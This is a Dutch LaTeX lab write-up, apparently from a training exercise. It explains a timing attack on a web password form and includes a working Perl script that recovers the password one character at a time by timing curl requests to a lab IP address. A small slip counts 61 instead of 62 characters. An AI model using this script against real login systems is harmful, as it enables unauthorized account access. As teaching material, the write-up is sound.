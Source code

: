 \begin{enumerate}
\item Bij het manueel ingeven van letters zien we dat het ingeven van een foute letter ons 3-4 seconden laat wachten.
\item Gewoon voor de fun even de wiskunde van een timing attack versus een brute force approach:
\item Gegeven: wachtwoord van 10 tekens, foute invoer = 3 seconden wachten
	\begin{enumerate}
	\item Timing attack:
		\begin{enumerate}
		\item Slechtste geval: 3 seconden * 61 (a-zA-Z0-9) = 183 seconden per teken
		\item 10 tekens = 1830 seconden = +/- half uur
		\end{enumerate}
	\item Brute force
		\begin{enumerate}
		\item Slechtste geval: 62\textsuperscript{10} = 839299365868340224 mogelijkheden
		\item Eentje is juist: 839299365868340224 - 1 = 839299365868340223
		\item 839299365868340223 * 3 seconden = 2517898097605020669 seconden =~ 80 miljard jaar
		\end{enumerate}
	\end{enumerate}
\item Het oplossen van dit probleem doen we door middel van het schrijven van een script.
\end{enumerate}

\begin{lstlisting}
Elk teken wordt doorlopen, telkens plakken we er de script-parameter aan toe.
We meten de tijd, doen daarna ons request naar de site en meten de tijd opnieuw.
Als het verschil kleiner is dan 3 seconden, dan hebben we de correcte letter gevonden en begint het script.

Perl script:
------------

use Time::HiRes qw/ time sleep /;
@abc = ("a".."z", "A".."Z", 0..9);
foreach (@abc) {
	$wachtwoord = $ARGV[0] . $_;
	$start = time;
	$res = `curl -s -k -d 'oplossing=$wachtwoord' https://192.168.255.130/oefeningen/oplossing/web-based/19/`;
	$eind = time;
	$verschil = $eind - $start;
	
	if ($verschil < 3) {
		print "\n$wachtwoord\n";
		exit 1;
	}
	
	print ".";
}

Uitvoering: 
-----------

perl script.pl

Het script geeft 'n' als resultaat. Daarna voeren we uit:
	perl script.pl n
	
En krijgen we mogelijk 'ny' als resultaat. Daarna voeren we uit:
	perl script.pl ny
	
...

Uiteindelijk vinden we: nyL0csPv7P
\end{lstlisting}